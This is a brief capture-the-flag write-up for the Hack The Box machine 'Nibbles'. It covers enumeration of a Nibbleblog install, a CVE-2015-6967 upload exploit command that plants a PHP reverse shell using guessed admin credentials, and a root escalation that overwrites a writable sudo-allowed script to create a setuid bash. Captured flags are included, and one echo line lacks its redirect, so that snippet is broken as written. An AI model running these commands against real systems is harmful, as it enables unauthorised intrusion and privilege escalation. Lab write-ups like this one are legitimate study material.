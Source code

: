 Machine: https://app.hackthebox.com/machines/121
IP: 10.10.10.75

# Enumeration

Port 80:

<!-- /nibbleblog/ directory. Nothing interesting here! -->

http://10.10.10.75/nibbleblog/README -> 

https://github.com/dix0nym/CVE-2015-6967

Username

http://10.10.10.75/nibbleblog/content/private/config.xml

admin:

# Exploitation

`python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php`

shell.php: https://www.revshells.com/ (PHP Pentest Monkey reverse shell)

user.txt: 007b56190d9bc45af7868dcdbf77dd96

# Post Exploitation

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

monitor.sh is writable

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Exploit

```bash
echo '#!/bin/bash' > monitor.sh
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
/tmp/bash -p
```

root.txt: e3598af0e1de3df4c0cc5fdc458f6aa6

